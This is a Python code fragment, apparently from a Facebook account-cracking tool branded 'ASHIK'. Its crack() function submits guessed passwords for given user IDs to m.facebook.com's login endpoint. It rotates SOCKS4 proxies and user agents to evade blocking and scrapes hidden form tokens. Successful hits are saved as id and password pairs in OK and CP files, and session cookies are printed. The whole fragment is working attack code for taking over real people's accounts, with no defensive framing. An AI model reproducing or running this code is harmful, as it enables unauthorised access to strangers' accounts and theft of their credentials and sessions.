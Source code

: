 #--------------------[ METODE-B-API ]-----------------#
 
def crack(idf,pwv):
    global loop,ok,CP
    bo = random.choice([m,k,h,b,u,x])
    sys.stdout.write(f"\r\033[100;92m{bo}[ASHIK-ON]-{P}[{H}{loop}{P}]-[{H}{len(id)}{P}]-[{H}OK{bo}-{H}{ok}{P}]-[{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]\033[0;37m "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
            dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'
            heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="24", "Chromium";v="116", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7', 'sec-fetch-site': 'same-origin', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9,bn-BD;q=0.8,bn;q=0.7',}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r\033[10;92m\033[1;91m[\033[1;92mASHIK-CP\033[1;91m] \033[10;92m\033[1;91m[\033[1;92mNUM\033[1;91m]> {idf} \033[10;92m\033[1;91m[\033[1;92mPASS\033[1;91m]> \033[1;92m{pw}')
                print(f'\033[38;5;196m────────────────────────────────────────────────\033[1;37m')
                os.system('espeak -a 300 " CP, ID"')
                open('CP/'+CPc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                CP+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\033[10;92m\033[1;91m[\033[1;92mASHIK-OK\033[1;91m] \033[10;92m\033[1;91m[\033[1;92mNUM\033[1;91m]> \x1b[38;5;50m{idf} \033[10;92m\033[1;91m[\033[1;92mPASS\033[1;91m]> \x1b[38;5;50m{pw}\n\x1b[38;5;50 \033[1;91m[🌺]\033[1;91m=\033[1;92m= \x1b[38;5;50m{kuki} ')
                print(f'\033[38;5;196m────────────────────────────────────────────────\033[1;37m')
                os.system('espeak -a 300 " ASHIK,  Ok,  id"')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                break
                